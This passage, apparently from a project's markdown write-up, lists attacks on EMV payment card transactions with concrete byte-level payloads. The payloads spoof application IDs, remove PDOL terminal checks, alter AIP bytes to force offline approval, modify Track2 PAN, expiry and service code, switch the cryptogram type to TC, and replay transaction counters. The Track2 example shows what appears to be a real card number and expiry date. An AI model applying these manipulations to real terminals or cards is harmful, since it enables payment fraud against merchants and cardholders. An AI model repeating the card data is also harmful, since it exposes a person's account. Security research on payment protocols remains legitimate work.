 #### Attack 2A: Application Hijacking
```
Request AID:  A0000000031010 (VISA)
Response AID: A0000000041010 (MasterCard FCI)
Effect: Terminal thinks it's talking to MasterCard while selecting VISA
```

#### Attack 2B: Capability Spoofing
```
Original PDOL: 9F66049F02069F03069F1A0295055F2A029A039C019F3704
Injected PDOL: (Remove terminal verification requirements)
Effect: Bypass terminal security validations
```

---

### 3. GPO (GET PROCESSING OPTIONS) ATTACKS  
**Attack Vector**: Manipulate card capabilities and transaction data
**Target**: GPO command `80A800238321270000000000...`

#### Attack 3A: AIP (Application Interchange Profile) Manipulation
```
Real AIP from emv.html: 82 02 20 00 (DDA, No offline PIN)
Attack Modes:
- 82 02 00 08 → Force offline approval (bypass online auth)  
- 82 02 7C 00 → Upgrade to DDA+CDA+SDA+PIN capabilities
- 82 02 18 00 → Enable offline PIN verification
- 82 02 08 00 → Offline data authentication only
```

#### Attack 3B: Track2 Data Spoofing  
```
Real Track2: 57 13 41 54 90 46 74 97 35 56 D2 90 22 01 00 00 82 00 83 00 1F
PAN: 4154904674973556, Expiry: 2902 (Feb 2029)
Attack Vectors:
- Change PAN: 4000000000000002 (test card number)
- Change Expiry: D2512 (May 2025 vs Feb 2029) 
- Alter service code: 201→101 (change transaction restrictions)
- Modify discretionary data for different limits
```

#### Attack 3C: Cryptogram Manipulation
```
Real Cryptogram: 9F26 08 D3 96 79 76 E3 0E FA FC (ARQC)
Cryptogram Type: 9F27 01 80 (ARQC - Online Authorization Required)
Attack Modes:
- Change to TC (40): 9F27 01 40 → Force offline approval
- Invalid cryptogram: 9F26 08 00 00 00 00 00 00 00 00 → Test auth bypass
- Replay old cryptogram with new ATC for replay attack
```

#### Attack 3D: Transaction Counter (ATC) Manipulation
```
Real ATC: 9F36 02 01 1E (Transaction count: 286)
Attack: Replay lower ATC values to simulate old transactions
Effect: Potential replay attack if terminal doesn't validate ATC properly
```

---